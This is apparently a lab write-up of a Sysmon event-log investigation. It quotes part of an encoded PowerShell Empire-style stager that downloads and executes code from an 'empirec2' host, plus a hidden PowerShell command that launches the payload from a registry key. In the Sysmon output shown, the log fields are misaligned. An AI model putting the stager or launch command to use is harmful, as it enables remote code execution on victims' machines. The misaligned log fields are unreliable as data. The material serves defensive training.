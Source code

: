 ```
               BLAC4AQwBPAHUATgBUAF0AKQAlADIANQA2ADsAJABTAFsAJABfAF0ALAAkAFMAWwAkAEoAXQA9ACQAUwBbACQASgBdACwAJABTAFsAJA
               BfAF0AfQA7ACQARAB8ACUAewAkAEkAPQAoACQASQArADEAKQAlADIANQA2ADsAJABIAD0AKAAkAEgAKwAkAFMAWwAkAEkAXQApACUAMg
               A1ADYAOwAkAFMAWwAkAEkAXQAsACQAUwBbACQASABdAD0AJABTAFsAJABIAF0ALAAkAFMAWwAkAEkAXQA7ACQAXwAtAGIAeABPAHIAJA
               BTAFsAKAAkAFMAWwAkAEkAXQArACQAUwBbACQASABdACkAJQAyADUANgBdAH0AfQA7ACQAcwBlAHIAPQAnAGgAdAB0AHAAOgAvAC8AZQ
               BtAHAAaQByAGUAYwAyADoAOAAwACcAOwAkAHQAPQAnAC8AYQBkAG0AaQBuAC8AZwBlAHQALgBwAGgAcAAnADsAJABXAGMALgBIAGUAYQ
               BkAGUAUgBzAC4AQQBEAGQAKAAiAEMAbwBvAGsAaQBlACIALAAiAHMAZQBzAHMAaQBvAG4APQBSAHoAcQAvADQAZABiAFAANgBZAFIAUA
               BZAHUASABCAHYAZABkAFQAQQAyAFQAWABVAHQAbwA9ACIAKQA7ACQARABBAFQAQQA9ACQAVwBDAC4ARABPAHcATgBsAE8AQQBkAEQAQQ
               BUAEEAKAAkAFMAZQByACsAJAB0ACkAOwAkAGkAVgA9ACQARABhAFQAQQBbADAALgAuADMAXQA7ACQAZABhAFQAQQA9ACQAZABBAFQAYQ
               BbADQALgAuACQARABBAHQAQQAuAEwAZQBOAGcAdABoAF0AOwAtAEoATwBJAG4AWwBDAEgAYQBSAFsAXQBdACgAJgAgACQAUgAgACQAZA
               BhAFQAYQAgACgAJABJAFYAKwAkAEsAKQApAHwASQBFAFgA
               Details: %8
```

Where in the registry was the payload stored in Investigation 3.1?
`HKLM\SOFTWARE\Microsoft\Network\debug`

What PowerShell launch code was used to launch the payload in Investigation 3.1?
`"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "$x=$((gp               HKLM:Software\Microsoft\Network debug).debug);start -Win Hidden -A \"-enc $x\" powershell";exit;`

```
PS C:\Users\THM-Analyst> Get-WinEvent -Path C:\Users\THM-Analyst\Desktop\Scenarios\Investigations\Investigation-3.2.evtx -FilterXPath '*/System/EventID=3' | fl


TimeCreated  : 2/5/2018 7:08:55 AM
ProviderName : Microsoft-Windows-Sysmon
Id           : 3
Message      : Network connection detected:
               RuleName: 2018-02-05 07:08:53.923
               UtcTime: {b231f4ab-f2e9-5a77-0000-0010cb670802}
               ProcessGuid: 11020
               ProcessId: 0
               Image: DESKTOP-O153T4R\q
               User: tcp
               Protocol: true
               Initiated: false
               SourceIsIpv6: 172.168.103.167
               SourceIp: DESKTOP-O153T4R.SSG-350M
               SourceHostname: 52984
               SourcePort: 0
               SourcePortName: false
               DestinationIsIpv6: 172.168.103.188
               DestinationIp: ACA867BC.ipt.aol.com
               DestinationHostname: 80
               DestinationPort: 0
               DestinationPortName: %18

TimeCreated  : 2/5/2018 7:08:55 AM
ProviderName : Microsoft-Windows-Sysmon
Id           : 3
Message      : Network connection detected:
               RuleName: 2018-02-05 07:08:53.650
               UtcTime: {b231f4ab-f2e9-5a77-0000-0010cb670802}
               ProcessGuid: 11020
```
